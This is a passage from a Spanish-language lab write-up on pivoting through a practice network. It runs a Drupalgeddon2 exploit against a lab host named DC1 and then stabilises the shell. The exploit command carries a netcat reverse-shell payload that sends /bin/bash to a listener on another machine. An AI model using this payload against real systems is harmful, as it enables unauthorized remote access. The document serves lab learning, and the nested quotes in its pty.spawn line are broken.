 Con esto listo vamos a explotar DC1 para ganar acceso. 

En los parámetros de druppalgeddon indicamos como objetivo la IP de DC1 y como escucha la IP que corresponde a DVWA 2 dentro de la red compartida con DC1 y el puerto 11601 ya que es donde tenemos el tunel con ligolo.

```bash
python3 druppalgeddon2.py -h http://192.168.20.20 -c 'nohup nc -e /bin/bash 192.168.20.10 11601 &'
```

![Explotación DC1](/assets/img/posts/cyberlab_pivoting/20250104_132007_Peek_2025-01-04_14-19.gif)

## Estabilización y escalada de privilegios

Una vez tengamos acceso a DC1 es momento de estabilizar nuestra linea de comandos para que sea más estable y nos permita realizar más acciones.

Para esto vamos a usar el siguiente proceso:

```bash
python -c 'import pty; pty.spawn('/bin/bash')'

export TERM=xterm

Pulsamos CTRL + Z

En kali : stty raw -echo; fg

Enter y luego enter de nuevo
```
